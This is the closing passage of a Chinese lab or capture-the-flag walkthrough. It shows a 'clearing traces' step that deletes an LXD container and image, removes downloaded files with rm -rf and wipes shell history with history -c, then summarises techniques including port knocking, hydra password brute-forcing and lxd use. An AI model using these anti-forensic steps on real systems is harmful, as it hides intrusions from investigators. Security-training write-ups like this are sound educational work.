




## 清除痕迹



```shell
lxc stop dijia		//暂停容器dijia
lxc delete dijia	//删除容器dijia
lxc image delete test	//删除镜像test
rm -rf alpine-v3.13-x86_64-20210218_0139.tar.gz snap	//删除下载的文件
```

`history -c`

`history -r `


## 总结

1. 对于信息的收集，只要有可能，都记录下来
2. 编码加密的一些使用，要会解码解密
3. 对于网站的目录，最好的方式就是都看一看页面源代码
4. 这里的`ssh`服务开启某种安全策略，所以需要特定的序号端口进行访问才能打开22端口
5. 密码爆破，`hydra`的使用
6. `lxd、lxc`的使用，容器，感觉用法其实和现在的`docker`很相似。


